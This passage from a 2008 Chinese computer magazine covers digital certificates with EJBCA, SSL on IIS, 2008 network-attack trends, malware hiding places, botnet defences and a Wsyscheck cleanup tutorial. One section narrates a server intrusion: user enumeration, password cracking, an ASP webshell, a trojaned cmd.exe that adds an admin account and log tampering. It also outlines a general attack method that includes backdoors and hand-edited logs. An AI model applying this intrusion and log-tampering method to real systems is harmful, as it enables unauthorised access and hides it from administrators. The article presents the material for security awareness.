打开“开始”菜单中的“程序”选项，选择“iSignature 电子签章V5”下的“iSignature 图案生成”，在右边进行印章设置。在这里，输入印章的正文、附文，选择印章字体、大小、颜色等，得到一个满意的电子印章后，单击“保存签章”按钮。如图14所示。
- 3.  **第3步：制作个性化的签章**
启动“iSignature 电子签章V5”下的“iSignature 签章制作”，首先输入登录密码，默认为123456。单击“签章导入”按钮，导入利用“电子签章生成器”制作的公章。然后，输入用户名称、签章名称、签章密码等。这样，一个属于“电脑爱好者”的签章制作完毕，在软件的安装目录下，生成了以.key为后缀的文件。注意：在下面的操作中，需要用同样的密码导入此文件。
- 4.  **第4步：导入签章**
打开一个WORD文档，这时发现界面上多出了几个关于电子签章的图案。点击“电子签章”图案，将光标停留在需要盖章的位置，输入钥匙密码，然后在“参数设置”选项卡中，导入已经制作完毕的key文件。
- 5.  **第5步：给电子文档盖章**
选择“电脑爱好者2008合订本”电子印章，输入正确的密码。单击“确定”按钮，即可将印章插入到Word文档中。在Word文档中，点击电子印章。将鼠标停留在电子印章上方，将会出现关于此印章的相关信息，如签章用户、签章名称、签章时间等。如果认为印章或签名所在位置不合适，可以直接将其移动到相应的位置。如图15所示。
- 6.  **第6步：导入数字证书并进行数字签名**
数字签名是通过使用数字证书来确保数据完整性和原始性的方法。有了数字证书，就可以有效避免电子文档被中途篡改了。现在，我们通过EJBCA颁发的数字证书来完成这个功能。在印章上点击鼠标右键，在弹出的菜单中选择“数字证书”下的“数字签名”，这时，会出现一个数字证书选择的对话框，选择已经安装的数字证书即可。如果安装的数字证书信息正确，就会提示“数字签名成功”。如图16所示。
- 7.  **第7步：文档的验证和锁定保护**
签名成功后，在印章上点击鼠标右键，在弹出的菜单中选择“数字证书”下的“签名验证”，就可以了解这个证书的签名验证信息。如果内容有任何变化，可以通过文档验证功能检测出来。在印章上点击鼠标右键，在弹出的菜单中选择“文档验证”，如对文档进行了修改，将看到不能通过验证的信息，文档上的印章或签名上有两条横线，表示印章无效。如图17所示。



> 小提示：也可以单击工具栏上的“手写签名”按钮，通过手写的方式进行文档签名。在此界面中，输入文字批注和手写批注，可以实现更有特色的电子签名。







由此可见，通过上述软件和数字证书的完美配合，我们完全可以在公司、学校或其他单位内部网等范围内独立制作数字证书，并使用EJBCA颁发内部数字证书，从而保证文档的真实性和不可篡改性。在这样的安全环境中，就可以轻松实现电子办公了。所以，网络发展得越快，人们对网络安全的要求也越来越高，了解数字证书并学会一些数字证书的操作将有利于我们更加安全地在网上冲浪。

## 网上冲浪：使用数字证书提高服务器安全

默认情况下，HTTP协议是没有任何加密措施的，所有的消息全部都是以明文形式在网络上传送。例如，我们打开搜狐网时，直接输入“http://www.sohu.com”，这种未经加密的通信方式存在很多缺陷。有了数字证书，就可以使用一种安全性更高的认证，即通过SSL（Security Socket Layer）安全机制来保证浏览过程的安全性。建立SSL安全机制后，客户端和服务器端就建立了一个惟一的安全通道。只有SSL允许的客户才能与SSL允许的Web站点进行通信，并且在使用URL资源定位器时，输入https://，而不是http://。

### 1. 提交服务器证书请求文件

IIS是Windows自带的Web服务器，全称为“Internet信息服务器”。在Windows XP中，单击“开始→设置→控制面板→管理工具”，打开“Internet信息服务”管理器。如果没有“Internet信息服务”图标，就需要通过“添加或删除程序”，在附件中安装IIS服务器。打开IIS后，打开需要申请证书的站点并设置其属性。

第1步：准备证书请求
以本地机器为例，选择“默认网站”，点击右键，在弹出的菜单中选择“属性”，出现属性对话框。找到“目录安全性”对话框。如果以前从未用过这项，“编辑”显示为灰色。选择“服务器证书”按钮，根据服务器证书的状态，选择“下一步”。在出现的选项中，选择“新建证书”。点击“下一步”。申请时，尽量选择默认参数。如图18所示。



第2步：设置名称和安全性设置
在这一步，要选择密钥的长度，位长越长，安全性越高，因此建议选择位长范围内的较大值。不过，位长过长也会使安全性降低。设置完毕，现在已经产生了一对密钥。私钥将存储在服务器上。这些信息将显示在服务器证书上，并将说明这个密钥的所有者。如图19所示。



第3步：设置单位信息
接着输入单位信息，通过这些单位信息能够与其他单位区分开。输入完毕单击“下一步”。

第4步：设置公用名称
注意“公用名称”是用来区分不同证书的最好方法。在SSL服务器证书的情况下，一般输入主机的域名，比如cfan.com.cn即可。

第5步：设置地理信息
选择存储证书请求的文件，选择一个容易找到的位置，用写字板打开这个文件，拷贝并粘贴在申请页面的“证书请求”一栏中。一旦请求被提交，将不再需要这个文件。点击“下一步”，完成申请步骤。

第6步：产生申请的摘要信息
当证书请求产生之后，会被保存为一个使用默认文件名（如c:\certreq.txt）或指定文件名的文本文件，存储在服务器的硬盘上。使用记事本或其他ASCII文本编辑器打开证书请求文件，可以查看证书请求的内容。注意，不能用Word或其他文字处理软件打开证书请求文件，因为这些软件会在证书请求文件中插入格式控制符。

### 2. 获得服务器证书和安装服务器证书

第1步：添加服务器证书的实体申请
进入https://localhost:8443/ejbca/adminweb/index.jsp页面，单击左侧“RA功能”下面的“添加终端实体”。在出现的表单中，有用户名、密码、Email、通用名、组织部门、城市、省、国家等信息。按照系统规定的格式提示，输入相关数据即可。这里设置用户名为cfan.com，密码为123456。

第2步：输入证书请求内容
登陆https://localhost:8443/ejbca/index.jsp界面，在左侧的【Create Server Certificate】（创建服务器证书）中，根据用户名和密码，输入c:\certreq.txt中的内容，选择“Result type”（结果类型）为“PEM Certificate”，单击【OK】按钮，将生成的内容保存为server.cer文件。如图20所示。



第3步：安装服务器证书
安装证书的时候，在Windows XP中打开Internet信息服务管理器，然后打开要为之申请证书的站点的属性。还是选择“目录安全性”，选择“服务器证书”，现在发现，服务器已经挂起了一个证书请求。根据证书向导，处理挂起的请求并安装证书。点击“下一步”，输入刚才申请到的server.cer文件的路径和名称。继续“下一步”，可以得到摘要信息。继续单击“下一步”，完成服务器证书的安装。

第4步：服务器证书的设置和服务器的访问
在Windows XP中打开Internet信息服务管理器，然后打开要为之申请证书的站点的属性。选择“目录安全性”，选择“服务器证书”，可以发现，下面的三个按钮都能使用了。选择“编辑”按钮，还可以对访问的证书用户进行管理。现在，通过HTTPS地址打开站点，会发现浏览器下方有一个黄色的小锁，这表明当前的通信过程是安全可信的。除了能够浏览安全站点，还可以通过设置用户的权限来浏览不同的网站，服务器的安全性将得到很大的提高。

可见，通过EJBCA，我们可以很方便地获得各种类型的数字证书。通过这些数字证书，在电子邮件、服务器安全等各种场合就可以游刃有余了，这样也大大提高了网络办公的安全性。尤其值得称道的是，作为加密和解密方面的标志性技术，PKI技术目前已经发展到一个很高的技术水平，而且在很多安全性要求比较高的行业，如军事、政府、银行、证券等行业得到了大量的使用，并成为了网络安全行业中一道独特的风景线。因此，通过EJBCA了解数字证书，将对我们的网络生活产生十分重大的影响。

在计算机应用中，网络安全的话题从来就没有停止过。“攻防兼备”，一个看似简单的词语，却蕴涵了回味许久的道理。2008年，伴随着奥运会掀起的一个又一个高潮，网络攻击也开始表现出一些新的动向。本专题将结合国内外流行的网络攻击技术，从攻防两个角度进行详细的分析，并穿插一些经典案例突出技术的实践性，以进一步满足用户的安全性和趣味性需求。

## 2008网络安全技术

文/风之扬

## 一、2008网络安全趋势分析

以同样强调攻防的足球比赛为例，前锋们都是漫无目的地进球吗？当然不是！漫无目的的进攻只能是死路一条。因此，在强调战术思路的同时，他们也会千方百计地亮出自己的“秘密武器”。

### 1. 举一反三：从一个案例谈起

- 1. 检查应用程序漏洞
    登录3389服务，看看有没有非系统自带的输入法，使用net命令测试后，发现不能顺利与服务器建立空连接，猜测密码口令也没有结果。继续检测CGI漏洞，使用扫描软件后，发现默认的“scripts”、“_vti_bin”等目录以及大量的“ida”、“idq”、“htw”等映像，但是用了很多溢出程序都没有溢出。初步推测，系统打上了SP3补丁。
- 2. 测试邮件服务软件是否支持expn、vrfy指令
    经测试，返回“OK”并枚举出一个100多个用户的详细列表，接着用POP3密码破解软件破解密码。然后尝试用这些帐号登录ftp服务，终于发现其中有一个用户名为cntest，密码为1234abcd，而且可以登录ftp空间。也就是说，这个用户买了服务器的收费邮箱和收费主页空间，并且邮箱和主页空间的密码设置是相同的。
- 3. 尝试攻击
    通过cntest用户向主页空间上传两个木马文件，其中就包括了比较有名的海阳顶端ASP木马。上传完毕，找到了cntest空间目录。
- 4. 使用木马入侵电脑
    为了防止被系统日志记录下来，明智的选择是另辟蹊径，并准备运行另一个win.exe木马。通过自己对Unicode漏洞知识的掌握，小张通过绝对地址参数将木马运行起来。看到IE状态区的进度条，表示已经在服务器端运行了程序。
- 5. 取得管理员权限
    由于Administrator帐号更改，现在把一个特殊的cmd.exe（利用exe合并软件把cmd.exe和木马合成一个程序）上传到服务器C盘下并隐藏起来。漫长的等待之后，当管理员运行cmd.exe时，系统自动添加了一个admin权限的帐号。接下来，就是用这个帐号停掉w3svc服务并修改日志，故事也暂时告一段落。

- 1. 寻找目标并探测其信息，力争进入该系统
    - 扫描目标主机。检查开放的端口，获得服务软件及版本。
    - 检查服务软件是否存在漏洞。如果是，利用该漏洞远程进入系统；否则进入下一步。
    - 检查服务软件的附属程序是否存在漏洞。如果是，利用该漏洞远程进入系统；否则进入下一步。
    - 检查服务软件是否存在脆弱帐号或密码。如果是，利用该帐号或密码进入系统；否则进入下一步。
    - 利用服务软件是否可以获取有效帐号或密码。如果是，利用该帐号或密码进入系统；否则进入下一步。
    - 服务软件是否泄露系统敏感信息。如果是，检查能否利用；否则进入下一步。
    - 扫描相同子网主机，重复以上步骤，直到进入目标主机或放弃。

## 第2步：检查漏洞，找准机会并利用漏洞来提升权限

检查目标主机上的程序是否存在漏洞，如果是，利用该漏洞提升权限，否则进入下一步。检查本地服务是否存在漏洞，如果是，利用该漏洞提升权限，否则进入下一步。检查本地服务是否存在脆弱帐号或密码，如果是，利用该帐号或密码提升权限；否则进入下一步。检查重要文件的权限是否设置错误，如果是，利用该漏洞提升权限，否则进入下一步。检查配置目录中是否存在敏感信息可以利用。检查用户目录中是否存在敏感信息可以利用。检查临时文件目录是否存在漏洞可以利用。检查其它目录是否存在可以利用的敏感信息。重复以上步骤，直到获得root权限或放弃。

## 第3步：放置后门

最好自己写后门程序，用别人的程序总是相对容易被发现。

## 第4步：清理日志

最好手工修改日志，不要全部删除，也不要使用别人写的工具。

通过上述思路的剖析，大家对攻防思路的每个环节都有了一个初步了解。作为普通用户或网络管理员，可以对号入座寻找可能存在的漏洞，并实施有的放矢的安全测试。

### 2. 2008网络攻击的多样化趋势

一般来说，入侵者主要有三种方式进入系统。第一种是物理入侵，例如溜进机房试图闯入操作系统、拿着钳子“借”走硬盘；第二种是系统入侵，指入侵者在拥有系统的一个低级账号权限下进行的破坏活动；第三种是远程入侵，指入侵者通过网络渗透到一个系统中。这种情况下，入侵者通常不具备任何特殊权限，他们要通过漏洞扫描或端口扫描等技术发现攻击目标，再利用相关技术进行破坏活动。从本年度技术发展趋势来看，第三种方式更为明显。

- （1）借助题材炒作，通过网络传播的病毒日益严重
    以奥运会为例，奥运会开幕期间，“疯子下载器”、“鸽子窝下载器”、“网络红娘变种”、“网银黑客盗号器”、“破坏型广告刷子”、“木马组合模块”、“还原卡破坏者”、“野狗下载器”、“江湖医生”等五花八门的病毒蜂拥而至。
- （2）“僵尸网络”扩张规模日益加快，社交网站成为黑客攻击新目标
    “僵尸网络”是采用一种或多种传播手段，将大量主机感染僵尸程序，从而在控制者和被感染主机之间所形成的一个可一对多控制的网络。对网友而言，各种有趣的小游戏、搔首弄姿的美女，都可能成为感染“僵尸病毒”的来源。2008年7月，山东潍坊市就发生了一起大规模攻击域网的案件，攻击者使用8000台被控制的傀儡机，攻击潍坊某物流公司网站，巨大的流量造成该市网络大面积瘫痪。
- （3）目标性更强，针对Web2.0应用的攻击日益增多
    随着Web2.0应用的兴起，Google Adsense、自动嵌入、桌面应用程序、社交性网站和数量庞大的网络广告联合在一起，增加了网站的脆弱性和易受攻击性。比如，黑客利用垃圾邮件来发送含有恶意程序的网站地址，或将其发布在论坛、博客和互动性评论中，这些行为不仅将网络流量引至被感染的网站，而且还有助于提高该恶意网站的搜索引擎排名，增加受感染面积。
- （4）欺骗技术与木马隐藏技术相结合的方式越来越多
    如今，木马隐藏的手段更加多样化。下面，列举一个典型的例子。一般来说，受SSL保护的网页具有“https”前缀。当具有SSL功能的浏览器与WEB服务器（Apache、IIS）通信时，通过客户端和服务器端建立的安全通道，SSL可以用于在线交易时保护信用卡号以及股票交易明细这类敏感信息。但是，从目前钓鱼式攻击者的实践来看，大多没有这个标志，即使有，也可能是仿冒的。如在做电子商务站点的时候，某个隐蔽的ASP页面伪造成https地址，只要添加一个简单转换代码即可。
- （5）攻击工具杀伤力更大，常用软件的潜在威胁日益严重
    这里的工具包括两方面。首先是攻击者使用的专业工具，这些自动攻击工具可以通过升级或更换工具的一部分迅速变化，发动迅速变化的攻击，且在每一次攻击中会出现多种不同形态的攻击工具。其次是网络上广泛流传的工具软件，在下载的过程中，它们被大面积用来嵌入恶意信息并窃取数据，安全危害日益严重。
- （6）电话诈骗和语音邮件结合起来并开始增加
    巨大的手机用户群体如今已发展成为一个有利可图的市场，电话诈骗和语音垃圾邮件将被结合起来帮助不法分子获取收益。在2008年，利用社会工程和IP语音电话（VoIP）非法获取私人资料和财务资料的行为越来越多，不法分子会要求用户拨打VoIP网络电话账号下附的电话号码，然后通过Skype等网络电话服务获得用户的身份资料。
- （7）虚拟财产被盗现象严重，攻击者的利益意识凸显
    天下从来没有免费的午餐，网络界的“病毒富翁”和庞大的电脑病毒产业，已经开始为人们所关注。打开百度贴吧，常常会看到如下场景：一台台被“木马”控制的电脑被称为“肉鸡”在网上公开叫卖，被盗的QQ号码、游戏币、游戏账号、隐私资料等等通过某些手段大肆交易。此外，通过搜索引擎攻击用户账号、搜索用户私密信息的安全事件也越来越引人注目，需要引起大家的足够重视。
- （8）漏洞发现时间更短
    考察近几年的年度安全报告，系统漏洞数量继续呈快速增长趋势。对于管理员来说，想要跟上补丁的步伐是很困难的。而且，入侵者往往能够在软件厂商修补这些漏洞之前首先发现这些漏洞。随着发现漏洞工具的自动化趋势，留给用户打补丁的时间越来越短。尤其是缓冲区溢出类型的漏洞，危害性非常大而又无处不在，是计算机安全的最大的威胁。
- （9）交互式平台攻击逐渐增多
    随着Linux、Unix、Mac等用户的增多，黑客更加关注操作系统层面的攻击而不仅仅是网页浏览器。从绿盟科技（http://www.nsfocus.net）公布的热点漏洞来看，攻击平台几乎涉及了所有的操作平台，包括：他们将推出越来越多的跨平台式网络攻击检测作业系统，使用专门针对操作系统的攻击形式，目标囊括了Mac OSX、iPhone和Windows系统。

## 三、病毒与木马难题

计算机病毒是指编制者在计算机程序中插入的破坏计算机功能或者破坏数据，影响计算机使用并且能够自我复制的一组计算机指令或者程序代码。特洛伊木马是一种带有恶意性质的远程控制软件，它一般分为客户端和服务端。如今，病毒与木马的关系日益密切，黑客的特洛伊木马程序事先已经以某种方式潜入用户的电脑，并在适当的时候激活，潜伏在后台监视系统的运行，实现拷贝、删除文件、格式化硬盘甚至发送电子邮件等功能。

### 1. 2008常见病毒及木马的特点

本年度典型病毒包括：木马群典型病毒（Trojan.PSW.Win32.Mapdimp.a）、梅勒斯变种（RootKit.Win32.Mnless.kg）、重写器变种M（Rootkit.Win32.RESSDT.m）、下载器蠕虫变种AH（Worm.Win32.DownLoader.ah）、VB蠕虫变种ZPZ（Worm.Win32.VB.zpz）、线上游戏窃取者变种MKU（Trojan.PSW.Win32.GameOL.mku）、MSN照片骗子变种N（Worm.MSN.Win32.PhotoCheat.n）、反病毒杀手变种B（Worm.Win32.KillAV.b）、ARP病毒等。

以木马群典型病毒为例，该病毒释放midimap??.dll和midimap??.dat的文件到系统目录(??代表两个随机字母)，并修改注册表信息达到开机被自动加载的目的。病毒运行后，会访问黑客指定的网址下载其他木马病毒，盗取网游账号，并将盗取的信息在后台发送给黑客，使网游玩家的利益受损。

通过对这些病毒的观察，可以发现以下潜伏特点：

- （1）内置到注册表中
    由于注册表比较复杂，木马常常喜欢藏在这里，检查一下：[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion]下所有以“run”开头的键值；[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion]下所有以“run”开头的键值；[HKEY_USERS\.Default\Software\Microsoft\Windows\CurrentVersion]下所有以“run”开头的键值。
- （2）集成到程序中
    为了不让用户能轻易地把它删除，木马常常集成到程序里，一旦用户激活木马程序，那么木马文件和某一应用程序捆绑在一起，然后上传到服务端覆盖原文件，这样即使木马被删除了，只要运行捆绑了木马的应用程序，木马又会被安装上去了。绑定到某一应用程序中，如绑定到系统文件，那么每次Windows启动均会启动木马。
- （3）隐藏在配置文件，或潜伏在Win.ini、System.ini、Winstart.bat等文件中
    利用配置文件的特殊作用，木马很容易就能在计算机中运行、发作，从而偷窥或者监视用户。而且，木马要想达到控制或者监视计算机的目的，必须要运行。因此，它必须找一个既安全又能在系统启动时自动运行的地方，于是潜伏在Win.ini、System.ini、Winstart.bat等系统文件中。
- （4）伪装在普通文件中
    这个方法现在很流行，普通操作者很容易上当。常见的方法是把可执行文件伪装成图片或文本，然后把图标改成Windows的默认图片图标，再把文件名改为*.jpg.exe，不注意的人一点这个图标就中木马了。
- （5）捆绑在启动文件和超级链接中
    即应用程序的启动配置文件，控制端利用这些文件能启动程序的特点，将制作好的带有木马启动命令的同名文件上传到服务端覆盖这同名文件，这样就可以达到启动木马的目的了。另外，木马的主人在网页上放置恶意代码，引诱用户点击，用户点击的结果不言而喻：开门揖盗！

下面，以典型的ARP病毒为例进行分析。在局域网中，当某台主机运行ARP欺骗的木马程序时，会欺骗局域网内所有主机和路由器，让所有上网的流量必须经过病毒主机。其他用户原来直接通过路由器上网现在转由通过病毒主机上网，切换的时候用户会断一次线。切换到病毒主机上网后，如果用户已经登录了传奇服务器，那么病毒主机就会经常伪造断线的假象，那么用户就得重新登录传奇服务器，这样病毒主机就可以盗号了。

由于ARP欺骗的木马程序发作的时候会发出大量的数据包导致局域网通讯拥塞以及其自身处理能力的限制，用户会感觉上网速度越来越慢。当ARP欺骗的木马程序停止运行时，用户会恢复从路由器上网，切换过程中用户会再断一次线。测试过程中，在路由器的“系统历史记录”中看到大量如下的信息：

| 项目 | 地址 |
| --- | --- |
| MAC Chged | 10.128.103.124 |
| MAC Old | 00:02:6b:36:d1:7f |
| MAC New | 00:03:5d:60:c7:16 |

这个消息代表了用户的MAC地址发生了变化，在ARP欺骗木马开始运行的时候，局域网所有主机的MAC地址更新为病毒主机的MAC地址（即所有信息的MAC New地址都一致为病毒主机的MAC地址），同时在路由器的“用户统计”中看到所有用户的MAC地址信息都一样。如果是在路由器的“系统历史记录”中看到大量MAC Old地址都一致，则说明局域网内曾经出现过ARP欺骗（ARP欺骗的木马程序停止运行时，主机在路由器上恢复其真实的MAC地址）。

### 2. 网络病毒：从防范“僵尸网络”开始

病毒的传播和感染由以软盘、软件为媒介发展到了因特网时代的以网络为媒介的侵入。从本年度的病毒发展情况来看，预防网络病毒需要从以下方面着手。

- （1）用实时作业方式扫描所有进出网络的文件。
- （2）尽量不要直接在服务器运行办公自动化软件。
- （3）尽可能在服务器上应用SQL Server等C/S方式的应用软件。
- （4）对用户的权限和文件的读写属性加以控制。
- （5）尽量采用32位NTFS文件分配格式。
- （6）在网络中严格控制不知名的外来光盘。因为WINDOWS服务器很容易把光盘作为共享给用户调用，这样可以避免传染病毒。

针对2008年度的安全特点，下面以十分典型的“僵尸网络”攻击为例，从普通用户与管理员相结合的角度进行讲解。

## 第一招：使用Web过滤服务

Web过滤服务是迎战僵尸网络的最有力武器。这些服务扫描Web站点发出的不正常的行为，或者扫描已知的恶意活动，并且阻止这些站点与用户接触。Websense、Cyveillance、FaceTime都是很好的例子。它们都可以实时地监视互联网，并查找从事恶意的或可疑的活动的站点，如下载JavaScript或执行screen scrapes等正常Web浏览之外的其它骗局。Cyveillance和Support Intelligence还可以通知Web站点操作人员及ISP等，使恶意软件提前被发现。

## 第二招：适当更换浏览器

据统计，Macs很少受到僵尸网络的侵扰，因为大多数僵尸的罪魁祸首都把目标指向了流行的Windows。因此，防止僵尸网络感染的一种有效策略是适当更换浏览器，而不仅仅依靠微软的Internet Explorer或Mozilla的Firefox。

## 第三招：禁用脚本

另一个更加极端的措施是完全地禁用浏览器的脚本功能，虽然有时候这会不利于工作效率，特别是如果雇员们在其工作中使用了定制的、基于Web的应用程序时更是这样。

## 第四招：部署入侵检测和入侵防御系统

从网络管理员的角度来看，可以调整IDS（入侵检测系统）和IPS（入侵防御系统），使之查找有僵尸特征的活动。例如，重复性的与外部的IP地址连接或非法的DNS地址连接都是相当可疑的。通过监视不正常的行为，找到难于发现的、基于HTTP的攻击和来自远程过程的攻击、Telnet和地址解析协议（即ARP）欺骗等等。同时，IPS或IDS还必须经常性地更新其数据库以识别新的攻击行为。

## 第五招：保护用户生成的内容

为了避免普通操作人员成为恶意软件犯罪的帮凶，公共博客和论坛应限制为只能使用文本方式。如果站点需要让会员或用户交换文件，还应该进行设置，使其只允许有限的和相对安全的文件类型，如那些以.jpeg或.mp3为扩展名的文件。

## 第六招：使用补救工具

如果发现了一台被感染的计算机，那么一个临时应急的重要措施就是进行补救。以Symantec杀毒工具为例，该软件提供了Veritas和VxMS（Veritas Mapping Service）技术，尤其是VxMS能够让反病毒扫描器绕过Windows文件系统的API（API是被操作系统所控制的，因此易于受到rootkit的操纵）。除此之外，最可靠的办法是：对原有的系统彻底清除，并重新开始安装系统。这里推荐使用Ghost等软件对干净的系统进行备份，感染病毒时即可瞬间恢复系统，避免重装系统浪费时间。

### 3. 典型案例：巧用Wsyscheck清理未知恶意程序

如今，杀毒软件的种类越来越多，新病毒或恶意软件的种类也层出不穷。尽管大部分杀毒软件具有主动防御、行为判断等功能，但是，碰到新病毒的时候，这些杀毒软件在一段时间内往往也无可奈何。在这种场合下，手工清除成为唯一的选择。实际应用中，我们常常需要有一些安全工具的配合，达到手工清除的目的。Wsyscheck就是这样一款手动清理病毒木马的工具，它提供了方便的操作步骤以及详细的分析数据，大大简化了病毒识别工作。软件下载地址为：http://down1.tech.sina.com.cn/download/down_contents/1186848000/36345.shtml。

### 功能一：通过进程管理清除浏览器插件

现在，很多病毒或木马都使用了线程插入技术，所以Wsyscheck专门针对这种情况进行了设置，不仅可以在进程管理页中显示出Windows系统中的隐藏进程，而且可以通过不同的颜色显示出不同的进程信息。任意点击其中一个进程，都可以在下面的窗口显示出该进程包含的模块信息。在进程列表中，正规的系统进程显示为黑色；非系统的进程或文件被标注为红色；紫红色表示虽然该进程是系统进程，但其模块中包含有非微软的文件。

## 第1步：软件设置

打开并运行Wsyscheck软件，使用之前，首先需要对软件进行一些设置。单击“软件设置”菜单，弹出系统的相关设置。默认情况下，软件会选中下面的【模块、服务简洁显示】选项，这样就能够自动将微软自身的模块信息给屏蔽掉，剩下的模块就是可疑的模块信息了。为了避免病毒进程的重复加载，还可以勾选【限制外部线程的创建】来禁止新的线程生成。

## 第2步：查看浏览器插件信息

实际应用中，IE等常用的软件会被强制装上很多非系统的插件，这时，点击该进程就会发现被标注为红色。需要注意的是，由于现在很多木马程序是利用IE进程来启动运行服务端程序本身，因此并不会加载其他的恶意模块信息，因此遇到没有标注的系统进程时也应当注意。如图1所示。

## 第3步：对恶意程序进行分析和清理操作

通过右键菜单中的命令，我们可以方便地在进程显示页中对恶意插件或恶意程序进行分析和清理操作。比如，现在要删除“CNNIC中文网址”或“Baidu搜索”等插件，可以采用“直接删除模块文件”，本功能执行后看不到变化，但文件其实已经被删除。如果上述操作没能删除该插件，可以继续使用【卸载模块并删除文件】功能，它可以在恶意程序（如Svchost进程或Winlogon进程）插入到某些重要的系统进程时，直接结束并删除该模块文件。使用【添加到重启并删除列表】时，可以在系统重新启动后将选定的文件直接删除。使用过程中，建议只对红色显示的非系统模块进行删除处理，以免不慎删除系统模块。不建议单独使用【卸载模块】功能（为保险也可以与“重启删除”联用），原因是卸载系统进程中的模块时有可能造成系统重启而前功尽弃。在上述操作中，大多数文件如Baidu搜索可以立即删除（进程模块可以直接使用右键下带删除的各项功能），加载的DLL文件删除后虽然文件仍然可见，但事实上已删除，重启后该文件消失。对于有些狡猾的病毒或恶意软件，有时因为木马有关联进程未同时结束，会重新加载木马文件。针对这种情况## 安全防护  SOLUTIONS

情况，Wsyscheck可以采取“0字节文件占位”的方式来确保删除，这些文件在Wsyscheck退出后会被自动清理。现在，单击并勾选【软件设置】菜单下的【删除文件后锁定】选项，通过联合“内核检查”等功能继续进行清除。

### 功能二：通过“服务管理”与“内核检查”清理插件

无论是恶意程序还是正规软件，从Windows XP开始都以系统服务来启动所需的程序。点击【服务管理】后即可显示出当前系统中的服务信息，同样那些标注为红色的是非系统服务。通过【仅显示非微软】选项可以屏蔽系统自带的服务，这样恶意程序添加的服务项就可以立刻现形了。如图2所示。

第1步：对重点怀疑的服务对象进行侦查

点击【文件属性】、【定位文件】或【定位注册表项】，就可以了解这些服务的详细信息。如上图，选择正在启动的cdnprot服务，即可了解该服务的文件厂商为“中国互联网络信息中心”；然后在该服务上单击右键，在弹出的菜单中选择【定位注册表项】，即可查看详细的注册表键值。如图3所示。

此外，在右键菜单中，还提供了许多方便的服务。例如，【中止服务】功能可以在系统重启前中止服务，并不是永久性的终止服务；【删除服务】则是删除指定的服务键值，不过在删除前一定要进行确认。另外，某些服务不提供终止服务，所以删除服务后它可能仍在运行，需要重启系统后才能真正停止其作用。下面，演示一个清除cdnprot服务的过程。

### 第2步：首先尝试直接清理cdnprot服务

实际操作中，某些顽固的恶意服务是无法中止或删除的。比如，现在针对cdnprot服务进行操作时，单击【删除选中的服务】时，软件提示“删除服务键失败”。这是因为它可能采用了注册表键值的保护。对付这类服务，要使用软件提供的内核Hook检查中的SSDT恢复功能后，才能在本选项页中进行其服务删除操作。

### 第3步：进行内核检查

内核Hook检测只关注被恶意程序Hook了的内核函数，一般来说对应的模块提供者是一个.sys文件。在SSDT管理页中，默认显示了全部的SSDT表，红色表示内核被HOOK的函数。查看第三方模块，可以点击两次标签“映像路径”排序，则第三方HOOK的模块会排在一起列在最前面。也可以取消“全部显示”，则仅显示入口改变了的函数。

以“CNNIC中文网址”为例，它的驱动通过注册表和文件进行交叉保护，一般卸载工具都不能删除cdnprot.sys文件。SSDT页的“代码异常”栏如显示“YES”，表明该函数被Inline Hook。如图4所示。

### 第4步：恢复系统底层原始函数地址

发现木马修改了SSDT表时，建议首先恢复SSDT，再作注册表删除等操作。对付这样的系统底层驱动，可以勾选并恢复成系统默认函数，以使其驱动保护失效。右键单击这些被检测出来的内核函数，在弹出的菜单中选择【恢复当前函数地址】。

### 第5步：删除恶意代码的注册表项

恢复系统底层原始函数地址后，回到【服务管理】选项卡中，就可以在服务管理页删除“CNNIC中文网址”的注册表服务项了。由于底层Hook的优先级很高，所以恢复了SSDT后可能会有一些隐藏的进程或文件被显示出来。这时可以在恢复SSDT后再次检查各检测页状况；以删除受这些驱动隐藏保护的进程、注册表项等。

### 第6步：解决IFEO劫持问题

对于有些新病毒来说，如果上述操作方法仍然不能解决问题，可以使用进程页的“禁止程序运行”，我们可以使用它来屏蔽一些结束后又自动重新启动的程序。或者使用【软件设置】下的【禁止进程与文件创建】功能，这是针对木马的反复启动、反复创建文件、反复写注册表启动项等问题进行监视或阻止，使用本功能后能够更轻松地删除木马文件及注册表启动项。开启【禁止进程与文件创建】后，会自动添加“监控日志”页，取消后该页消失。可以观察一下日志情况以便从所阻止的动作中找到比较隐藏的木马文件。要注意的是，如果木马插入系统进程，则反应的日志是阻止系统进程的动作，用户需要分辨该动作是否有害，并分析该进程的模块文件。

### 第7步：解决重启之后的错误提示问题

现在，已经对重点的恶意程序进行了清理，但重新启动后系统依然有提示，如“加载 C:\progra~1\Baidu\iexp\BDSRHook.dll时出错，拒绝访问。”如图5所示。

这种情况可能是系统启动时依然有残留的程序痕迹，在【开始】→【运行】中输入“msconfig”命令，打开系统配置实用程序，去掉BDSRHook启动项目选择项，重新启动后，此问题得到解决。如图6所示。

```
msconfig
```

128  电脑爱好者 合订本·2008

## SOLUTIONS 安全防护

### 功能三：文件搜索、文件浏览及注册表查看功能

为了配合清除恶意程序或病毒文件，Wsyscheck提供了方便的辅助功能，包括：安全检查、文件管理和注册表管理。通过这些功能的配合，往往使得恶意程序无处藏身。

在【安全检查】中，包括：常规检查、活动文件、IE安全、端口状态、文件搜索、重启删除文件等选项。在“活动文件”中，可以准确地显示常规启动项的内容，便于用户发现潜在的恶意程序。在“文件搜索”选项中，“厂商搜索”和“排除微软文件”选项使用也十分方便，它能够有效地将有厂家的正规文件和没有厂家的恶意文件进行区分，从而有效清除系统中的病毒备份或找到未知病毒。此外，通过【端口状态】还可以详细地了解系统当前的端口状态。由于木马或其他远程控制软件通常会占用特定的端口，通过此功能，可以详细地了解木马运行状况。如图7所示。

在【文件管理】中，由于Wsyscheck采用了一些反Hook手段，所以内置的资源管理器可以看到隐藏的文件或文件夹，这样就能够方便用户进行隐藏文件的相关操作。对于利用系统本身特性隐藏的文件，比如Windows中的某些文件夹，或者利用Rootkit技术隐藏的灰鸽子、hackdef100等隐藏文件，内置的资源管理器都可以一览无遗。

在【注册表管理】功能中，提供了常见的注册表管理功能，如通过下拉菜单，可以方便地找到【HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run】等路径。不过，注册表功能通常与其他功能联手操作，如发现恶意的服务或进程，通过点击右键即可找到该键值。

